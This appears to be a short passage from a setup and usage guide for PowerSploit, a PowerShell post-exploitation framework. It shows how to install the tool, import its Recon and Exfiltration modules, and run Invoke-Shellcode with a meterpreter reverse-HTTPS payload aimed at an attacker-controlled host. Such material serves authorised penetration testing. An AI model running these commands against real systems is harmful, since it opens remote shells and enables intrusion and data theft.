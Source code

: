 ### On Unix-based Systems (Linux/macOS):

1. **Install PowerShell Core:**

   - PowerSploit requires PowerShell Core to run on Unix-based systems. Install it using your package manager.

   - **On Debian-based systems:**

```sh
sudo apt-get install -y powershell
```

   - **On macOS using Homebrew:**

```sh
brew install --cask powershell
```

2. **Clone the PowerSploit Repository:**

```sh
git clone https://github.com/PowerShellMafia/PowerSploit.git
cd PowerSploit
```

3. **Run PowerShell Core and Import Modules:**

```powershell
Import-Module ./Recon/Recon.psm1
Import-Module ./Exfiltration/Exfiltration.psm1
```

## Basic Usage
PowerSploit is divided into several modules, each targeting specific post-exploitation tasks. Here are some common commands and usage examples:

### Reconnaissance
To gather information about the target environment, such as network scanning and credential harvesting:

```powershell
Import-Module ./Recon/Recon.psm1
Get-NetLocalGroup
```

- **`Get-NetLocalGroup`**: Lists local groups on the target system.

### Code Execution
To execute arbitrary code on a remote system:

```powershell
Import-Module ./CodeExecution/Invoke-Shellcode.ps1
Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost <attacker-ip> -Lport 443
```

- **`Invoke-Shellcode`**: Executes shellcode on the target system.
